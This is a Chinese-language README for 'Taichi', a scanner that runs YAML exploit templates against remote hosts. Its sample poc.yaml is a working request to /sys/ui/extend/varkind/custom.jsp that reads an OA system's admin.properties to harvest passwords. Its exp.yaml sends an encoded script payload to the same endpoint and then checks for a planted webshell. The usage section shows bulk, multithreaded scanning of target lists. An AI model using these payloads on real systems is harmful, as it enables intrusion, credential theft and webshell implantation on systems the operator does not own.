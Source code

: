 # Taichi

## 前言

之前写了几个poc，感觉代码有很多相似的地方，所以我寻思能不能写个大体框架，这样以后就不用改来改去了。当然，我也知道有nuclei这样成熟好用的工具，但是我还是想试试，所以就搞了一个这个。（大佬勿喷）

目前才搞了几天，测试的数量也不多，算是个雏形，所以会有很多bug，请见谅。如有bug或者建议欢迎联系我

## 介绍

我认为这个工具的核心就是可以自定义poc或者exp

## poc.yaml格式

```
#请求方式
- method:
  - method: "post"

#payload
- payload:
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
  
#response包里的关键字
- word:
  - word:
      - "password"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"
```

例子中的payload

```
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
```

可以随意变换为request包里的内容，例如:

```
  - a: 'aaaaaaaaaaa'
```

## exp.yaml格式

```
#请求方式
- method:
  - method: "post"

#payload
- payload:
  - s_bean: 'ruleFormulaValidate&script=u0067\u0020\u003d\u0020\u0074\u0072\u0075\u0065\u003b\u0020\u007d\u0069\u0066\u0020\u0028\u0066\u006c\u0061\u0067\u0029\u0020\u007b\u0020\u0062\u0072\u0065\u0061\u006b\u003b\u0020\u007d\u0020\u007d\u0069\u0066\u0020\u0028\u0066\u006c\u0061\u0067\u0029\u0020\u007b\u0020\u0062\u0072\u0065\u0061\u006b\u003b\u0020\u007d\u0020\u007d\u0020\u0063\u0061\u0074\u0063\u0068\u0020\u0028\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0020\u0065\u0029\u0020\u007b\u0020\u0063\u006f\u006e\u0074\u0069\u006e\u0075\u0065\u003b\u0020\u007d\u0020\u007d'

#response包里的关键字
- word:
  - word:
      - "0xold6"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"

#attack中 验证 是否攻击成功的 请求方式
- method-V:
  - method: "get"

#webshell位置
- verify:
  - verify : "/login_listyes.jsp"
```

同理，payload内容也是可以变的

### 注意：yaml文件中参数的位置不可以改变

## 使用方法

```
python3 Taichi.py -h
usage: Taichi.py [-h] [-rh remote_host] [-f file_path] [-o outfile_path]
                 [-t thread_num] [-p poc_path] [-e exp_path]

Scan by atk7r

options:
  -h, --help            show this help message and exit
  -rh remote_host, --rhost remote_host
                        Please input host to scan.
  -f file_path, --file file_path
                        Please input file path to scan.
  -o outfile_path, --outfile outfile_path
                        Please input path for output file.
  -t thread_num, --thread thread_num
                        Please input thread number.
  -p poc_path, --poc poc_path
                        Please input poc path to scan.
  -e exp_path, --exp exp_path
                        Please input exp path to scan.
```

### 扫描单个目标

```
python3 Taichi.py -rh 123.123.123.123 -e exp.yaml
python3 Taichi.py -rh 123.123.123.123 -p poc.yaml
```

### 扫描多个目标

```
python3 Taichi.py -f target.txt -e exp.yaml/-p poc.yaml -o result.txt
```

### 多线程扫描

```
python3 Taichi.py -f target.txt -e exp.yaml/-p poc.yaml -o result.txt -t 5
```


